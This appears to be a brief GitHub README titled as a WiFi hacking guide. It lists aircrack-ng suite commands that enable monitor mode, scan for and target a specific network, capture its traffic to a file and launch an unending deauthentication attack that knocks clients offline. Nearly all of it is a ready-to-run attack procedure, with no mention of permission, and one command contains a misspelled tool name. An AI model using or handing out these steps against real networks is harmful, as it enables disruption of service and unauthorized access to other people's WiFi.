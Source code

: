 ## Ubuntu Wifi Hack Aircrack-ng (vol. 1) 

Check for any conflicting processes and kill them
- ```sudo airmon-ng check kill```

Monitor mode: on
- ```sudo airmon-ng start wlo1```

Monitor networks
- ```sudo airodump-ng wlo1mon``` | Get the *bssid* and *channel* info

Monitor target net
- ```sudo airodumo-ng wlo1mon -d <bssid>```

attack
- ```sudo airodump-ng -w hack1 -c <channel> --bssid <bssid> wlo1mon```

deauth attack on another terminal
- ```sudo aireplay-ng --deauth 0 -a <bssid> wlo1mon```
